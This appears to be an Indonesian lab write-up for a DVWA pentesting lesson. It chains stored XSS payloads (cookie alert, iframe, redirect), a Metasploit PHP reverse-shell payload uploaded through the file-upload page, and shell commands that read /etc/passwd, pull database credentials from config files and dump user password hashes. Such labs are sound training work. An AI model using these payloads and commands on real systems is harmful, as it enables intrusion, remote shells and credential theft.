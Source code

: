 ## LESSON 9

Inti dari Lesson 9 adalah mendapatkan 7 hal, yaitu:
1. Test **Basic Cross Site Scripting (XSS)** attack
2. Test **Iframe Cross Site Scripting (XSS)** attack
3. Test **Cookie Cross Site Scripting (XSS)** attack
4. Membuat **php/meterpreter/reverse_tcp payload**
5. Menjalankan **php/meterpreter/reverse_tcp listener**
6. Mengunggah **PHP payload** lewat **DVWA Upload Screen**
7. Test **PHP Payload** menggunakan **Cross Site Scripting (XSS) attack**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Fix Stored Cross Site Scripting (XSS)**
1. Masukkan command

```
cd /var/www/html/dvwa/vulnerabilities/xss_s/
nano index.php
```

![SS 1](LESSON_9/1.png)

2. Mengganti panjang **mtxMessage** menjadi **250** di dalam **index.php**

![SS 2](LESSON_9/2.png)

**B. Enable Javascript**
1. Masuk ke **Firefox**, klik **Edit** -> **Preferences* -> **Content**, Centang **Block pop-up Windows** dan **Enable JavaScript**

![SS 3](LESSON_9/3.png)

**C. XSS Stored Basic Exploit Test**
1. Pilih menu **XSS Stored**, lalu isi **Name** dengan **Test 1** dan **Message** dengan

```
<script>alert("This is a XSS Exploit Test")</script>
```

![SS 4](LESSON_9/4.png)

Lalu

![SS 5](LESSON_9/5.png)

Hasil

![SS 6](LESSON_9/6.png)

**D. XSS Stored IFRAME Exploit Test**
1. Pilih **Setup** lalu klik **Create / Reset Database Button**

![SS 7](LESSON_9/7.png)

Hasil

![SS 8](LESSON_9/8.png)

2. Pilih **XSS Stored**, lalu isi **Name** dengan **Test 2** dan **Message** dengan

```
<iframe src="http://www.cnn.com"></iframe>
```

![SS 9](LESSON_9/9.png)

Hasil

![SS 10](LESSON_9/10.png)

**E. XSS Stored COOKIE Exploit Test**
1. Pilih **Setup** lalu klik **Create / Reset Database Button**

![SS 11](LESSON_9/11.png)

2. Pilih **XSS Stored**, lalu isi **Name** dengan **Test 3** dan **Message** dengan

```
<script>alert(document.cookie)</script>
```

![SS 12](LESSON_9/12.png)

Hasil

![SS 13](LESSON_9/13.png)

**F. Build PHP msfpayload**
1. Masukkan command ini

```
msfpayload php/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=4444 R > FORUM_BUG.php
```

![SS 14](LESSON_9/14.png)

2. **Edit** **FORUM_BUG.php**

![SS 15](LESSON_9/15.png)

**G. Upload PHP Payload**
1. Pilih **Upload** dan pilih **FORUM_BUG.php**

![SS 16](LESSON_9/16.png)

Hasil

![SS 17](LESSON_9/17.png)

2. Jalankan **PHP Listener**

```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.104
set LPORT 4444
exploit
```

![SS 18](LESSON_9/18.png)

**H. XSS Stored window.location Exploit Test**
1. Pilih **Setup** pada DVWA dan klik **Create / Reset Database Button**

2. Pilih **XSS Stored** pada DVWA dan isi **Name** dengan **Test 4** dan **Message** dengan

```
<script>window.location="http://192.168.1.103/dvwa/hackable/uploads/FORUM_BUG.php" </script>
```

![SS 19](LESSON_9/19.png)

Hasil

![SS 20](LESSON_9/20.png)

**NOTE**
- Terdapat icon **Connecting**

**I. View Metasploit Session**
1. **Backtrack** mendapatkan jawaban

![SS 21](LESSON_9/21.png)

2. Melakukan koneksi **Shell**

```
shell
tail /etc/passwd
```

![SS 22](LESSON_9/22.png)

3. Mencari **File Konfigurasi**

```
whoami
grep apache /etc/passwd
find /var/www/* -print | grep config
```

![SS 23](LESSON_9/23.png)

4. Exploit **File Konfigurasi**

```
grep "db_" /var/www/html/dvwa/config/config.inc.php
echo "use dvwa; show tables;" | mysql -uroot -psanisani
echo "use dvwa; desc users;" | mysql -uroot -psanisani
echo "select user,password from dvwa.users;" | mysql -uroot -psanisani
```

![SS 24](LESSON_9/24.png)

![SS 25](LESSON_9/25.png)

```
echo "<pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "select user,password from dvwa.users;" | mysql -uroot -pdvwaPASSWORD >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "</pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "<br>Your Name<br>" >> /var/www/html/dvwa/hackable/uploads/xss.html
date >> /var/www/html/dvwa/hackable/uploads/xss.html
```

![SS 26](LESSON_9/26.png)

**J. Testing**
1. Akses halaman
```
http://192.168.1.103/dvwa/hackable/uploads/xss.html
```

![SS 27](LESSON_9/27.png)

### Kesimpulan Lesson 9

Menggunakan **XSS** dapat mengetahui konten dari **Database** menggunakan **PHP Payload**
